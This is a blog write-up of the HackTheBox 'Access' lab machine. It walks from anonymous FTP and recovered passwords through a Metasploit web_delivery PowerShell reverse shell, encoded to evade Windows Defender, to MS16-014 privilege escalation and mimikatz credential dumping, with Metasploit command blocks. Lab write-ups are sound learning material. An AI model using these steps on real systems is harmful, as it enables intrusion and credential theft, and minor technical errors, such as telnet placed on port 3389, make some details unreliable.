 ```yaml
---
layout: post
title: HackTheBox - Access
categories: htb
permalink: /htb-access
---
```


![BoxInfo]({{ site.baseurl }}/assets/htb-images/access/infocard.png)

As always, I am starting off with an Nmap scan to determine open ports. After the scan has completed I will be able to determine my attack vector.

![Nmap]({{ site.baseurl }}/assets/htb-images/access/Nmap.png)

So it looked like that RDP and telnet are open, FTP allows for anonymous login. When I tried to access the FTP service from the browser It seems that i cannot do it, but when I tried to login from the terminal it allowed me ! I was prompted for username so I just used Anonymous for user and blank password, since the header of Nmap output, showed that FTP allows for anonymous access ! There were 2 directories inside FTP service: Backups and Engineer. Backups folder contained a file called "backup.mdb" and folder Engineer contained a zip file "Account Access.zip". I ran strings command on backups.mdb and I found
several interesting things:

> admin , administrator, engineer, backup_admin, access4u@security

The last one access4u@security looked more like a password and so I passed it to the zip file: Access Control.zip and it worked so i extracted the file inside. Now the file inside the compressed file had an extension ".pst" so I used a tool called readpst to convert the file and read it with any kind of editor. After I opened the file, I found some information about an account on the system.

![acc_security]({{ site.baseurl }}/assets/htb-images/access/acc_security.png)

I used the found credentials in the Microsoft Telnet Service (port 3389) and it prompted me with a shell. So now I was inside the system and I could run commands.

![telnetaccess]({{ site.baseurl }}/assets/htb-images/access/telnetaccess.png)

After enumerating the system, I didn't find anything, so I decide to upload a windows enumeration script to find something for me. I have immediately discovered that I wasn't allowed to use backspace and arrows to quickly navigate through commands. I have decided to get a meterpreter session, but after trying to get through payload execution on the system it didn't work, so I opted to get a web based reverse shell, using the module 'exploit/multi/script/web_delivery'. What this module will do, is to generate a powershell command, which will be base64 encrypted to evade windows defender and metasploit will also open a web server on my machine so that when I execute the command in the telnet session, the windows box will access my metasploit web server, grab the payload and execute it.

As for the enumeration script, I used Sherlock (made by RastaMouse). This script is going to check for missing patches & software as well as show possible ways of privilege escalation. When the script finished the enumeration, I saw that script has found a common way of privilege escalation in Windows, Secondary Logon Handle, CVE: MS16-032! Once I tested the exploit it did not work, so I would assume at this point that the system was patched against this exploit.

```
 In Metasploit
 $ use multi/script/web_delivery
 $ set payload windows/x64/meterpreter/reverse_https
```

 Had some error with this exploit saying its not compatible so running this command fixed it !

```
 $ set target 2 ----> Sets payload delivery via Powershell
 $ set LHOST  
 $ set LPORT <>
 $ exploit -j
```

Copy command from metasploit & run on target machine !

![Payload_Delivery]({{ site.baseurl }}/assets/htb-images/access/Payload_Delivery.png)

I now had 2 shells as user 'security', one telnet & one meterpreter session. As MS16-032 did not worked,I have checked to see the closest exploit to date to MS16-032 and it was the MS16-014. Metasploit has a post exploitation module which uses this exploit to escalate privileges.
```
 In Metasploit after I get shell !

 $ meterpreter> background
 $ search ms16-014
 $ use exploit/windows/local/ms16_014_wmi_recv_notif
 $ set session 1
 $ exploit
```
![MS16-014MSFpostModule]({{ site.baseurl }}/assets/htb-images/access/MS16-014MSFpostModule.png)

This privilege escalation exploit spawned me in shell session instead of in meterpreter as NT_AUTHORITY user, so I quickly changed it to a meterpreter session using a post module.

```
 Switch from Shell -> Meterpreter

 $ctrl + z
 $ use post/multi/manage/shell_to_meterpreter
 $ set LHOST  
 $ set LPORT <>
 $ set session 2
 $ exploit
```

![System-Meterpreter]({{ site.baseurl }}/assets/htb-images/access/System-Meterpreter.png)

At this point, I tried to read the flag, but with no luck! Interestingly enough, I wasn't able to do because I didn't have permission and I was NT_AUTHORITY so it was really weird. My attempt to this was to grab the password for the Administrator user using mimikatz (developed by gentlekiwi). I uploaded the tool, and ran it, and I grabbed the password for user Administrator. After this, I opened another telnet session and logged in as Administrator and now I was able to read the root flag!

![MimikatzGetPasswds]({{ site.baseurl }}/assets/htb-images/access/MimikatzGetPasswds.png)

![Gotroothash]({{ site.baseurl }}/assets/htb-images/access/Gotroothash.png)